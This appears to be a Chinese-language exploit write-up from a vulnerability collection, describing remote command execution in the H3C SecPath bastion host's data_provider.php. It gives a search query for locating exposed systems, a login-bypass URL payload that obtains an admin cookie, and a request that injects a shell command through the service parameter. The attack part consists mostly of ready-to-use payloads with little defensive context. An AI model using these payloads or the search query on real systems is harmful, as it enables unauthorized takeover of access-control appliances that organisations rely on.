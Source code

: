 # H3C SecParh堡垒机 data_provider.php 远程命令执行漏洞

## 漏洞描述

H3C SecParh堡垒机 data_provider.php 存在远程命令执行漏洞，攻击者通过任意用户登录或者账号密码进入后台就可以构造特殊的请求执行命令

## 漏洞影响

```
H3C SecParh堡垒机
```

## 网络测绘

```
app="H3C-SecPath-运维审计系统" && body="2018"
```

## 漏洞复现

登录页面如下

![](images/202202091828935.png)



先通过任意用户登录获取Cookie

```plain
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```



![](images/202202091828626.png)



```plain
/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(id)&identity_cond=&query_type=all&format=json&browse=true
```



![](images/202202091828206.png)